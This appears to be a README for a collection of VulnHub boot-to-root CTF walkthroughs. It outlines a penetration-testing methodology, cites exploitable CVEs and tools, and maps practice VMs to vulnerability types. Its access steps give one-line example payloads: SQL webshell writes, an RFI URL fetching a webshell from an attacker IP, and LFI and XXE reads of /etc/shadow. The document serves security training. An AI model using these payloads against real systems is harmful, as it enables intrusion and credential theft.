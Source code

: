 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for fun. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


#### Classic pentest methodology to do a Boot2root CTF...

##### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
   
Useful tools: nmap port scanner and (NSE) scripts, burp proxy, dirb/gobuster, nikto, various scripts (source:kali/Github/your owns),..
```
##### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
   
Useful tools: various scripts, webshells, and reverse shells (source:kali/Github/your owns), searchsploit/ExploitDB, metasploit framework, burp proxy, sqlmap, kadimus, hydra, ncrack, impacket framework, CrackMapExec, DBvis..
```
##### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
   
Useful tools: various scripts such as 'LinEnum', 'LinPEAS', 'Linux Exploit suggester', 'WinPEAS','PowerSploit/PowerUp', 'Sherlock' and your owns,  searchsploit/ExploitDB, metasploit framework,..
```

##### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg client/webshell)
5. Pivoting with SOCAT / RDP / VNC...
6. ...
```

##### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | - | X | - | 
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | Pivoting technique |
